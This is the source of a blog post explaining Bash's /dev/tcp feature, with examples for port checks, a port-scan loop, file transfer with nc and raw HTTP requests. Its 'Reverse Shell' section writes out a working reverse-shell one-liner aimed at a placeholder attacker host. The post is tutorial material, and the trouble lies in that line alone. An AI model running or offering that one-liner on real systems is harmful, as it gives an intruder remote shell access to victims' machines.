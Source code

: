 ```yaml
---
layout: post
title: Bash-ing your network with /dev/tcp
excerpt: "In Bash, `/dev/tcp` is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.

Using `/dev/tcp`, you can open a network socket and read from or write to it, similar to how you would read from or write to a file. This feature is primarily available in Bash shells on Unix-like systems.

/dev/udp is also valid."
author: stefanos_kalandaridis
categories:
- troubleshooting
- networking
- security
tags:
- bash
- networking
- http
- security
---
```

## /dev/tcp is a file descriptor of bash shell

In Bash, `/dev/tcp` is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.

Using `/dev/tcp`, you can open a network socket and read from or write to it, similar to how you would read from or write to a file. This feature is primarily available in Bash shells on Unix-like systems.

/dev/udp is also valid.

- [Port Scanning](#port-scanning)
- [Read TCP stream](#read-tcp-stream)
- [File Transfer](#file-transfer)
- [Reverse Shell](#reverse-shell)
- [HTTP Requests](#http-requests)

### Port scanning
#### One of the most common uses of it is to check if a port is open in a remote host
```
timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/7777 && echo "open" || echo "closed"
```

#### This can be extremely usefull in cases where a machine/container doesn't have nc, curl, wget or any other utility to check for network connection
Let's say we are in a kubernetes pod that runs on a minimal image having bash. We want to check if it can communicate with a service or if the service is actually listening on a port.
```
kubectl exec -it svc/random-service -- bash
$ echo < /dev/tcp/other-service.namespace.svc.cluster.local/7777 && echo "open" || echo "closed"
```

#### You can make a port scanner with it (and it's pretty fast)
```
for port in {1..8888}; do
  echo -n 2>/dev/null < /dev/tcp/127.0.0.1/$port && echo "$port/tcp open"
done
```

### Read TCP stream
#### Get the time from nist.gov
```
cat < /dev/tcp/time.nist.gov/13
```

### File Transfer
#### Option 1
Sender
```
nc -lvnp 7777 < file.txt
```
Receiver
```
cat < /dev/tcp/sender/7777 > file.txt
```

#### Option 2

Receiver
```
nc -lvnp 7777 > file.txt
```
Sender
```
cat file.txt > /dev/tcp/receiver/7777
```

### Reverse Shell
#### Attacker
```
nc -lvnp 7777
```
#### Victim
```
bash -c 'bash -i >& /dev/tcp/attacker/7777 0>&1'
```

### HTTP Requests
#### Fetching the `www.google.com` page
```
exec 5<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: www.google.com\r\nConnection: close\r\n\r\n" >&5
cat <&5
```



### References 
- [https://tldp.org/LDP/abs/html/devref1.html](https://tldp.org/LDP/abs/html/devref1.html)
- [https://w0lfram1te.com/exploring-dev-tcp](https://w0lfram1te.com/exploring-dev-tcp)